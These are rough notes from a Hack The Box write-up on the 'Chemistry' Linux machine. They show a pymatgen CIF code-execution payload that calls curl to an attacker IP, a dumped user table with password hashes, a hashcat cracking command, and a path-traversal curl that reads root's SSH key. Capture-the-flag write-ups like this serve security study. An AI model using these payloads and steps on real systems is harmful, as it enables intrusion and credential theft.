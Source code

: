 
# Htb linux machine | 'easy'

### Very rough note

# Nmap 

`sudo nmap -sVC -v -A $ip -T4 -p- --open -oN Chemistry_scan`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Mon, 10 Mar 2025 03:52:08 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at 
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0

```


## Intial exploit

- On visting port 8080
- Found a dashboard page 
- with /login and /register endpoint
- /registered with user=dedrknex=password
- logged in
-  a page to analyze the cif file
- googled found a exploit lead to arbitary code execution
- 


![](assests/Pasted%20image%2020250310094103.png)


## Vulnerable code

[link to code](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f)


```python3
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl http://10.10.14.21:80/nothing");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```


# After getting revershell found db 

```bash
app@chemistry:~/instance$ sqlite3 database.db .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE structure (
        id INTEGER NOT NULL,
        user_id INTEGER NOT NULL,
        filename VARCHAR(150) NOT NULL,
        identifier VARCHAR(100) NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id),
        UNIQUE (identifier)
);
CREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
);
INSERT INTO user VALUES(1,'admin','2861debaf8d99436a10ed6f75a252abf');
INSERT INTO user VALUES(2,'app','197865e46b878d9e74a0346b6d59886a');
INSERT INTO user VALUES(3,'rosa','63ed86ee9f624c7b14f1d4f43dc251a5');
INSERT INTO user VALUES(4,'robert','02fcf7cfc10adc37959fb21f06c6b467');
INSERT INTO user VALUES(5,'jobert','3dec299e06f7ed187bac06bd3b670ab2');
INSERT INTO user VALUES(6,'carlos','9ad48828b0955513f7cf0f7f6510c8f8');
INSERT INTO user VALUES(7,'peter','6845c17d298d95aa942127bdad2ceb9b');
INSERT INTO user VALUES(8,'victoria','c3601ad2286a4293868ec2a4bc606ba3');
INSERT INTO user VALUES(9,'tania','a4aa55e816205dc0389591c9f82f43bb');
INSERT INTO user VALUES(10,'eusebio','6cad48078d0241cca9a7b322ecd073b3');
INSERT INTO user VALUES(11,'gelacia','4af70c80b68267012ecdac9a7e916d18');
INSERT INTO user VALUES(12,'fabian','4e5d71f53fdd2eabdbabb233113b5dc0');
INSERT INTO user VALUES(13,'axel','9347f9724ca083b17e39555c36fd9007');
INSERT INTO user VALUES(14,'kristel','6896ba7b11a62cacffbdaded457c6d92');
INSERT INTO user VALUES(15,'dedrknex','bc354e9386ff6f3845229952f073360a');
INSERT INTO user VALUES(16,'kavish','6ad14ba9986e3615423dfca256d04e3f');

```


## extracted username and passwd

`cat db | awk -F\' ' {print $2":"$4} ' > crack`

Just to clear things up


## cracked passwd

`hashcat -m 0 --user crack /usr/share/wordlists/rockyou.txt`

> Cracked the passwd and macth wirth user available on systenm

## sssh to rosa user

`rosa@chemistry:~$ id
uid=1000(rosa) gid=1000(rosa) groups=1000(rosa)`


# root

Found id_rsa key thorugh 

```
curl -s --path-as-is "http://localhost:8081/assets/../../../../../root/.ssh/id_rsa" > key.pem

```

```
root@chemistry:~# id
uid=0(root) gid=0(root) groups=0(root)
root@chemistry:~# 

```